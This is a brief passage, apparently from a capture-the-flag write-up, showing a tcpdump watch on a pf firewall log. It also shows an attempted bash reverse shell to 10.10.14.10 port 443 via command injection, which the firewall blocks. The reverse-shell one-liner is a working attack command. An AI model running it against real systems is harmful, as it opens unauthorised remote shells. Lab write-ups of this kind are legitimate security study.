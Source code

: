 ```

fortune# tcpdump -n -e -ttt -i pflog0
tcpdump: WARNING: snaplen raised from 116 to 160
tcpdump: listening on pflog0, link-type PFLOG

```

Then I ran a reverse shell via command injection:

```

fortune> bash -c 'bash -i >& /dev/tcp/10.10.14.10/443 0>&1'
bash: connect: No route to host
bash: /dev/tcp/10.10.14.10/443: No route to host

```

A line did appear in the `tcpdump` window:

```

Jul 29 18:31:10.351547 rule 10/(match) block out on em0: 10.10.10.127.22208 > 10.10.14.10.443: S 1233573000:1233573000(0) win 16384 <mss 1460,nop,nop,sackOK,nop,wscale 6,nop,nop,timestamp 1275021369[|tcp]> (DF) 

```